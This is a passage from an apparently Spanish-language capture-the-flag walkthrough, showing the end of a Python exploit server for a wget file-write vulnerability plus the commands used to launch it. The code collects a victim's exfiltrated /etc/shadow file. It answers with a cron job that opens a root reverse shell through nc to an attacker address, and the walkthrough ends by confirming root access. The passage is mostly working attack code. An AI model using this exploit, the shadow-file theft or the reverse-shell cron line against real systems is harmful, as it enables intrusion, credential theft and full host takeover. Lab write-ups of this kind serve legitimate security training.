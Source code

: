         content_len = int(self.headers.getheader('content-length', 0))
        post_body = self.rfile.read(content_len)
        print "Received POST from wget, this should be the extracted /etc/shadow file: \n\n---[begin]---\n %s \n---[eof]---\n\n" % (post_body)

        print "Sending back a cronjob script as a thank-you for the file..."
        print "It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)"
        self.send_response(200)
        self.send_header('Content-type', 'text/plain')
        self.end_headers()
        self.wfile.write(ROOT_CRON)

        print "\nFile was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) \n"

        return

    HTTP_LISTEN_IP = '0.0.0.0'
    HTTP_LISTEN_PORT = 80
    FTP_HOST = '10.10.10.55'
    FTP_PORT = 21

    ROOT_CRON = "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 443 >/tmp/f \n"

    handler = SocketServer.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)

    print "Ready? Is your FTP server running?"

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    result = sock.connect_ex((FTP_HOST, FTP_PORT))
    if result == 0:
    print "FTP found open on %s:%s. Let's go then\n" % (FTP_HOST, FTP_PORT)
    else:
    print "FTP is down :( Exiting."
    exit(1)

    print "Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT

    handler.serve_forever()
    ```

1. habrimos en una ventana el puerto 21 para el ftp

    ```bash
    authbind python -m pyftpdlib -p21 -w
    ```

1. en la otra ventana lanzamos el exploit

    ```bash
    authbind python wget-exploit.py
    ```

en la maquina de atacante nos ponemos en escucha por el puerto 443 y esperamos que nos entable esta Coneccion.



```bash
 whoami 
```
 -> root ;)